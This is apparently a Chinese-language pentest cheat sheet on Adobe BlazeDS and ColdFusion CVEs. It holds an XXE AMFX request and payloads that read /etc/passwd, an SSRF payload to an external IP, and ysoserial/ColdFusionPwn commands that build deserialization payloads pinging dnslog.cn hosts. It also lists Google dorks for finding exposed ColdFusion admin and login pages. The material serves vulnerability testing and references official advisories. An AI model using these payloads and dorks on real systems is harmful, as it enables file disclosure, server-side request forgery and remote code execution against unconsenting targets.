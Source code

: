 ### [CVE-2009-3960] XXE BlazeDS<= 3.2
影响组件：
HTTPChannel servlet。具体的，是
```
“mx.messaging.channels.HTTPChannel”
“mx.messaging.channels.SecureHTTPChannel”
```
在这个包`flex-messaging-common.jar`里。
HTTPChannel 以AMFX格式的数据进行通信（就是AMF的XML格式）。
这个endpoints在这个文件`Flex/WEB-INF/services-config.xml`里定义。

默认HTTPChannel映射到了以下接口：
- /messagebroker/http
- /messagebroker/httpsecure
不过不同的框架（比如BlazeDS, Adobe LiveCycle Data Services）会被映射到不同的路径。

```http
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [ <!ENTITY x3 SYSTEM "/etc/passwd"> ]>
<amfx ver="3" xmlns="http://www.macromedia.com/2005/amfx">
  <body>
    <object type="flex.messaging.messages.CommandMessage">
      <traits>
        <string>body</string><string>clientId</string><string>correlationId</string>
        <string>destination</string><string>headers</string><string>messageId</string>
        <string>operation</string><string>timestamp</string><string>timeToLive</string>
      </traits><object><traits />
      </object>
      <null /><string /><string />
      <object>
        <traits>
          <string>DSId</string><string>DSMessagingVersion</string>
        </traits>
        <string>nil</string><int>1</int>
      </object>
      <string>&x3;</string>
<int>5</int><int>0</int><int>0</int>
    </object>
  </body>
</amfx>
```

参考：
- [Adobe (Multiple Products) - XML External Entity / XML Injection](https://www.exploit-db.com/exploits/11529)
- [Adboe官方对BlazeDS的公告](https://www.adobe.com/support/security/bulletins/apsb10-05.html)

### [CVE-2015-3269]XXE BlazeDS< 4.7.1
http://mail-archives.apache.org/mod_mbox/flex-users/201511.mbox/%3Cop.x8j4mv0bn9yd54@christofers-macbook-pro.local%3E
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

### [CVE-2015-5255]SSRF BlazeDS< 4.7.2
http://apache-flex-users.2333346.n4.nabble.com/CVE-2015-3269-Apache-Flex-BlazeDS-Insecure-Xml-Entity-Expansion-Vulnerability-td10976.html

```xml
<!DOCTYPE foo PUBLIC "-//VSR//PENTEST//EN"
"http://49.x.y.z:8888/protected-service"><foo>Some content</foo>
```


### [CVE-2017-3066]Adobe Coldfusion BlazeDS反序列化
影响范围：
- Adobe ColdFusion 2016 Update 3 and earlier
- Adobe ColdFusion 11 update 11 and earlier
- ColdFusion 10 Update 22 and earlier

利用方式两种：
- 实现Externalizable接口(`org.apache.axis2.util.MetaDataEntry`)
- 任意Setter方法(`org.jgroups.blocks.ReplicatedTree`)

分别对应这个工具的两个参数`-e/-s`。
```bash
$ java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.8-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 "ping 111.oqp5zz.dnslog.cn"  poc.amf
$ java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.8-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -s CommonsBeanutils1 "ping 222.oqp5zz.dnslog.cn"  poc2.amf
```

### [CVE-2017-5641] 反序列化 BlazeDS< 4.7.3
- [[CVE-2017-5641] - DrayTek Vigor ACS 2 Java Deserialisation RCE](https://seclists.org/fulldisclosure/2018/Apr/40)



## 参考
- [Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution](https://www.exploit-db.com/exploits/43993)
- https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html
- [Exploitation Tool for CVE-2017-3066 targeting Adobe Coldfusion 11/12](https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java)
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md
- [Adobe官方公告](https://helpx.adobe.com/security/products/coldfusion/apsb17-14.html)

# 其他参考

- [ColdFusion for Pentesters](http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf)
- http://web.archive.org/web/20101226181618/http://www.security-assessment.com/files/advisories/2010-02-22_Multiple_Adobe_Products-XML_External_Entity_and_XML_Injection.pdf


## Google Dorks
```
- filetype:cfm "cfapplication name" password
- inurl:login.cfm
- intitle:"Error Occurred" "The error occurred in"
- filetype:cfm
- intitle:"ColdFusion Administrator Login“
- intitle:"Index of" cfide
- inurl:/CFIDE/componentutils/
```


## CodeFusion各个版本的界面


# 利用工具
- https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java
- https://github.com/mbechler/marshalsec/blob/6e5f2a7974a62fcd0e5bbbf8df64774a50db2eb8/src/main/java/marshalsec/BlazeDSAMF3AM.java
- https://github.com/mbechler/marshalsec/blob/0471b932a09c8aca21876de80c8abf65b251c9ca/src/main/java/marshalsec/BlazeDSAMFX.java
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md



